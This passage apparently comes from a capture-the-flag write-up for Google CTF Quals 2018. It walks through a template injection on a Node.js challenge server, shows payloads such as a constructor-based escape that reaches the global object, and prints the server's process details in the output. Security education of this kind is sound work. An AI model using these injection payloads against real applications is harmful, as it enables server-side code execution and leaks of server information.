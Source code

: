 And we've got it! A successful template injection. Bug bounty hunters would be happy to get up to this step and would probably look for a way to break the Angular JS sandbox in order to get an XSS. But that's not our goal today.

###### 2. Experimenting with payloads

Let’s try other queries. How about `\{\{this}}`?

![this](../assets/google-ctf-quals-2018/this.png)

Hmm it just says that this is the $SCOPE. Which means that we must be in a constructor now. Maybe we could try to find other global variables too?

Using `\{\{constructor.constructor('return+global')()}}`,

```json
{
	"process": {
	"argv": [],
	"title": "node",
	"version": "v8.11.3",
	"versions": {
	"http_parser": "2.8.0",
	"node": "8.11.3",
	"v8": "6.2.414.54",
	"uv": "1.19.1",
	"zlib": "1.2.11",
	"ares": "1.10.1-DEV",
	"modules": "57",
	"nghttp2": "1.32.0",
	"napi": "3",
	"openssl": "1.0.2o",
	"icu": "60.1",
	"unicode": "10.0",
	"cldr": "32.0",
	"tz": "2017c"
	},
	"arch": "x64",
	"platform": "linux",
	"env": {},
	"pid": 83,
	"features": {
	"debug": false,
```
